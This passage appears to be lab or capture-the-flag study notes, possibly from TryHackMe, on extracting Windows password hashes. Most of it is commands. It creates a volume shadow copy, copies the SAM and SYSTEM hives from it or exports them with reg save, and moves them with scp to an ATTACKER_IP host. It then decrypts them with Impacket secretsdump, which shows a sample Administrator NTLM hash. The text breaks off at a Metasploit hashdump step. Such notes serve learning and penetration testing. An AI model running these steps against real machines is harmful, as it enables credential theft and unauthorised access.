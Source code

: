 > Files Needed:
- **SAM:** Contains user hashes (encrypted).
- **SYSTEM:** Contains the boot key to decrypt the SAM.


> Workflow...

### 1: Volume Shadow Copy (Manual)
- Create a Shadow Copy:

      wmic shadowcopy call create Volume='C:\'

  ![image](https://github.com/user-attachments/assets/1005a73f-d248-4e04-b288-c3815711274b)


- Verify with:

      vssadmin list shadows

  ![image](https://github.com/user-attachments/assets/715d5b92-65a7-4f13-b3b9-950325ecc5ba)

Note the Shadow Copy Volume path (e.g., `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1`).

- Copy SAM & SYSTEM Files:

      copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\thm\Desktop\sam
      copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\\users\thm\Desktop\system

  ![image](https://github.com/user-attachments/assets/796ad428-a9ee-4429-9383-1e9cee0897e6)


- Transfer to AttackBox (e.g., with `SCP`):

      scp root@ATTACKER_IP:C:\sam .
      scp root@ATTACKER_IP:C:\system .
  
- Decrypt with Impacket:

      python3 /opt/impacket/examples/secretsdump.py -sam sam -system system LOCAL
  
     - Output:

              Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
              NTLM Hash: 98d3a787a80d08385cea7fb4aa2a4261

### 2: Registry Hives (Alternative)
- Export SAM & SYSTEM from Registry:

      reg save HKLM\sam C:\sam-reg
      reg save HKLM\system C:\system-reg
  
- Decrypt with Impacket (same as above).

### 3: Metasploit hashdump (Quick)
- Get Meterpreter Shell (if not already):
